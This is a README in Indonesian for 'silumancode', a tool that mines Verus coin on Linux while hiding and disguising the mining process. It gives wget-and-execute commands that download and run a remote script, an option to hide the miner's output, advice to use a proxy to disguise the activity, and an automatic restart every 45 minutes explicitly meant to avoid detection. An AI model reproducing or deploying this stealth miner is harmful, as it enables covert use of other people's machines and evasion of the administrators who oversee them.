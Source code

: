 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
### Keterangan :
        - wallet : alamat walet verus miner anda.
        - pool   : pool mining verus coin (usahakan menggunakan proxy).
        - thread : jumlah thread processor yang akan digunakan (usakan tidak menggunakan thread maksimal yang tersedia).
        - y/n    : opsi untuk menampilkan proses mining dari miner (y untuk menampilkan, no tidak menampilkan).
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
![tampilan example](images/cmsil.png)
dan jika ingin menyembunyikan tampilan proses miner bisa menggunakan opsi (y) di akhir kode
### example II
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 y
![tampilan example II](images/cmsil2.png)
### Catatan Tambahan
1. gunakan proxy untuk memaksimalkan proses penyamaran proses mining
2. proses miner akan di restart setiap 45 menit (untuk menghindari deteksi system)
3. kode ini hanya sementara untuk penggunaan jangka panjang dan mining coin lain, bisa menghubungi contak wa : 
